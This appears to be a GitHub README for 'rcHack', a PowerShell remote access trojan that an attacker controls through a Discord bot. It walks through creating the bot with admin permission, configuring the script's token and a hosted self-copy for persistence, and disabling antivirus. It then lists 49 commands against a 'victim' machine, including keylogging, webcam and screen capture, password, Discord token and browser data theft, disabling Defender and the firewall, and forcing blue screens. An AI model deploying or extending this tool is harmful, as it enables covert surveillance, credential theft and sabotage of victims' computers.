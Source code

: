 ## How to Set Up the Discord Bot?

1. Go to [Discord Developer Portal](https://discord.com/developers/applications).
2. Click "New application," name it, and click "Create."
3. In the Bot tab, copy the bot token.
4. Under Privileged Gateway Intents, enable:
   - PRESENCE INTENT
   - SERVER MEMBERS INTENT
   - MESSAGE CONTENT INTENT
   Then click "Save Changes."
5. In the Oauth2 tab:
   - Under Redirects, type `http://localhost/`.
   - Enable the following:
     - `messages.read`
     - `applications.commands`
     - `bot`
   - Select redirect URL `http://localhost/` and add the
   - `admin` permission.
   - Copy the generated URL.
6. Open the copied URL in the browser and follow the steps to add the bot to your server.

Now the bot is set up. Update the `rcHack.ps1` file with the bot token and server ID.

# rcHack Discord Bot Setup

## Setup Instructions for rcHack.ps1

1. Open `rcHack.ps1` in a text editor.
2. Edit the following variables with your specific information:
   ```powershell
   $token = "YOUR_DISCORD_BOT_TOKEN_HERE"

   $guildId = "YOUR_DISCORD_SERVER_ID"

   $StartupPsOnlineFileLocation = "HTTPS://WWW.EXAMPLE.COM/URL_TO_YOUR_RCHACK_SCRIPT.PS1"
   ```
the `StartupPsOnlineFileLocation` url should lead to an online-hosted version of itself (an exact copy)


1. Creating the Bot
   ![Creating the Bot](images/1%20creating%20the%20bot.png)

2. Naming the Bot
   ![Naming the Bot](images/2%20naming%20the%20bot.png)

3. Bot Tab
   ![Bot Tab](images/3%20bot%20tab.png)

4. Reset Token
   ![Reset Token](images/4%20reset%20token.png)

5. Copy Token
   ![Copy Token](images/5%20copy%20token.png)

6. Privileged Gateway Intents
   ![Privileged Gateway Intents](images/6%20privileged%20gateway%20intents.png)

7. OAuth2
   ![OAuth2](images/7%20oauth2.png)

8. Redirect URL
   ![Redirect URL](images/8%20redirect%20url.png)

9. Permissions
   ![Permissions](images/9%20permissions.png)

10. Admin
    ![Admin](images/10%20admin.png)

11. Add Bot
    ![Add Bot](images/11%20add%20bot.png)

---

# `Depending on your version of windows and if you have an av installed, you may need to disable your antivirus and windows defender.`

```plaintext
COMMAND_NAME                           |                           PARAMETERS
--------------------------------------------------------------------------------
If you see 'Requires admin.', that means the script wasn't run as administrator.
--------------------------------------------------------------------------------
E          X          A          M          P          L          E          S

1. !cmd               // Executes a command in cmd and returns the output
   Example: !cmd ipconfig

2. !powershell        // Executes a command in PowerShell and returns the output
   Example: !powershell ipconfig

3. !dir               // Displays the current directory
   Example: !dir

4. !cd                // Changes the current directory
   Example: !cd C:\location\of\file

5. !download          // Downloads a file from a specified location or current directory
   Example: !download C:\location\of\file\file.txt
   Example: !download file.txt

6. !upload {ATTACHMENT} // Uploads any attachment to the current directory
   Example: !upload {ATTACHMENT}

7. !delete            // Deletes a specified file or directory
   Example: !delete C:\location\of\file\file.txt

8. !availwifi         // Retrieves available Wi-Fi networks
   Example: !availwifi

9. !wifipass          // Retrieves Wi-Fi passwords
   Example: !wifipass

10. !screenshot        // Captures a screenshot of the victim's screen
    Example: !screenshot

11. !webcampic         // Captures and returns a picture from the webcam
    Example: !webcampic

12. !wallpaper         // Changes the wallpaper of the victim's computer
    Example: !wallpaper C:\path\to\wallpaper.jpg

13. !keylogger         // Activates keylogger to record keystrokes
    Example: !keylogger

14. !getkeylog         // Retrieves the logged keystrokes
    Example: !getkeylog

15. !voicelogger       // Activates voicelogger to transcribe spoken words
    Example: !voicelogger

16. !getvoicelog       // Retrieves the logged voice recordings
    Example: !getvoicelog

17. !disabledefender   // Disables Windows Defender
    Example: !disabledefender

18. !disablefirewall   // Disables the Windows Firewall
    Example: !disablefirewall

19. !shutdown          // Shuts down the victim's computer
    Example: !shutdown

20. !restart           // Restarts the victim's computer
    Example: !restart

21. !logoff            // Logs off the user from the victim's computer
    Example: !logoff

22. !msgbox            // Displays a customizable message box
    Example: !msgbox TITLE_HERE,MESSAGE_HERE,Warning,YesNoCancel

23. !hackergoose       // Employs a specialized goose for real-time hacking
    Example: !hackergoose

24. !website           // Opens a specified website
    Example: !website www.example.com

25. !minapps           // Minimizes all windows on the victim's computer
    Example: !minapps

26. !ip                // Retrieves the victim's IP address
    Example: !ip

27. !passwords          // Retrieves the victim's saved passwords
    Example: !passwords

28. !tokengrabber       //Retrieves discord tokens
    Example: !tokengrabber

29. !browserdata       // Retrieves browser data
    Example: !browserdata

30. !networkscan       // Scans and retrieves information about the network
    Example: !networkscan

31. !volume            // Adjusts the volume of the victim's computer
    Example: !volume 50

32. !voice             // Makes the victim's computer speak a specified message
    Example: !voice You are hacked!

33. !proclist       // Retrieves a list of all running processes
    Example: !proclist

34. !prockill          // Terminates a specified process
    Example: !prockill process_name.exe

35. !write             // Types a specified message
    Example: !write Hello, world!

36. !clipboard         // Retrieves the last copied item
    Example: !clipboard

37. !idletime          // Retrieves the duration of the victim's idle time in seconds
    Example: !idletime

38. !datetime          // Retrieves the date and time of the victim's computer
    Example: !datetime

39. !bluescreen        // Triggers a blue screen on the victim's computer
    Example: !bluescreen

40. !delpasswords      // Deletes all passwords for all accounts on the current computer
    Example: !delpasswords

41. !geolocate         // Retrieves the victim's geolocation data
    Example: !geolocate

42. !block             // Blocks the victim's keyboard and mouse (requires admin)
    Example: !block

43. !unblock           // Unblocks the victim's keyboard and mouse (requires admin)
    Example: !unblock

44. !disabletaskmgr    // Disables Task Manager (requires admin)
    Example: !disabletaskmgr

45. !enabletaskmgr     // Enables Task Manager (requires admin)
    Example: !enabletaskmgr

46. !admin             //attempts to replace session with admin (shows prompt)
    Example: !admin

47. !startup           // Enables persistence for this script
        will add a ps1 script to startup
        on line 9, set the var StartupPsOnlineFileLocation to the full url of your ps1 file
    Example: !startup

48. !implode           // Triggers a system implosion (Use with caution!)
    Example: !implode

49. !help              // Displays information about available commands
    Example: !help
```
